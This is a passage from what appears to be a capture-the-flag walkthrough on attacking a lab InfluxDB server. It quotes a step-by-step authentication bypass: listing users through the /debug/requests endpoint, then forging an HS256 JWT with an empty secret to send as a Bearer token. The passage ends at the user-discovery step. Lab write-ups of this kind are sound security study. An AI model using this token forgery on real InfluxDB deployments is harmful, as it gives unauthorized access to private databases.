 The database that is running is: **InfluxDB**

---

### [ What is the database user you find? ]

Based on nmap's results, the service that seems the most interesting to tackle is the InfluxDB server.

I did a lot of research online before coming across this article (https://www.komodosec.com/post/when-all-else-fails-find-a-0-day).

Essentially, we are able to authenticate to the InfluxDB server by creating a JWT token with a valid user, an empty secret and a valid expiry date. We can then use the InfluxDB API to query the database using `curl`:

```
// EXPLOIT

1. Discover a user name in the system via the following URL:
https://<influx-server-address>:8086/debug/requests


2. Create a valid JWT token with this user, an empty secret, and a valid expiry date
You can use the following tool for creating the JWT: https://jwt.io/

header - {"alg": "HS256", "typ": "JWT"}
payload - {"username":"<input user name here>","exp":1548669066}
signature - HMACSHA256(base64UrlEncode(header) + "." +base64UrlEncode(payload),<leave this field empty>)

The expiry date is in the form of epoch time.


3. Authenticate to the server using the HTTP header:
Authorization: Bearer <The generated JWT token>

There you have it, now you are logged into the system. You can now query the data using InfluxQL.
```

To discover a valid user on the DB, let's visit `http://10.10.179.212:8086/debug/requests`:

<img style="float: left;" src="screenshots/screenshot1.png">

A valid database user is returned to us!
